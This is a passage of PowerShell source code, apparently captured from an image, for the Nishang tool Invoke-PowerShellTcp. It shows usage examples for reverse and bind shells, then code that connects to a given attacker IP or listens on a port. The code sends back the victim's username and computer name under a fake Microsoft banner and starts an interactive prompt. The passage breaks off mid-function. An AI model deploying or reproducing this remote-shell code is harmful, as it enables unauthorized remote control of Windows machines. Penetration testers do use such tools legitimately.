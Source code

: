 ```
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
```